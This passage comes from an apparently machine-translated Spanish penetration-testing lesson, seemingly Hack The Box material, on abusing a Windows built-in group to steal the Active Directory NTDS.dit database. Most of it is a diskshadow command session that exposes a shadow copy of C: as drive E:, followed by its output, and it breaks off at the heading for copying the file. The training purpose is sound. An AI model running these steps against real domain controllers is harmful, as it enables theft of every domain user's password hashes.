 Los comandos anteriores demuestran cómo se accedió a la información confidencial sin poseer los permisos requeridos.

#### Atacando un controlador de dominio - copiar NTDS.dit

Este grupo también permite iniciar sesión localmente a un controlador de dominio. La base de datos de Active Directory`NTDS.dit`es un objetivo muy atractivo, ya que contiene los hashes NTLM para todos los objetos de usuario y computadora en el dominio. Sin embargo, este archivo está bloqueado y tampoco es accesible por los usuarios sin privilegios.

Como el`NTDS.dit`El archivo está bloqueado de forma predeterminada, podemos usar Windows[disco](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)utilidad para crear una copia en la sombra del`C`conducir y exponerlo como`E`conducir. El sistema ntds.dit en esta copia de la sombra no estará en uso por el sistema.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

#### Copying NTDS.dit Locally
